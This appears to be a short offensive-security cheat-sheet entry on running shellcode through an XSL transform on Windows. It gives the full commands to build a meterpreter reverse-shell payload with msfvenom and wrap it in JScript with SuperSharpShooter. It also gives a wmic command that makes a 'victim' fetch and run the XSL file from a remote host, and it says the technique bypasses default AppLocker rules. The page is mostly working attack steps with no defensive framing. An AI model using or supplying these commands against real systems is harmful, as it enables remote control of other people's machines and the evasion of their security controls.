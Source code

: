 # XSL Transform

Can be combined with JScript code (SuperSharpShooter) to get a meterpreter shell.
![CAUTION] 
> Bypasses default AppLocker Rules.
> We can use 64bit shellcode.

### Create shellcode:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`

### Create JScript using SuperSharpShooter:

`python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`

Embed the JS content to the XSL template, and on victim, run: `wmic process get /format:"http://192.168.0.1/test.xsl"`
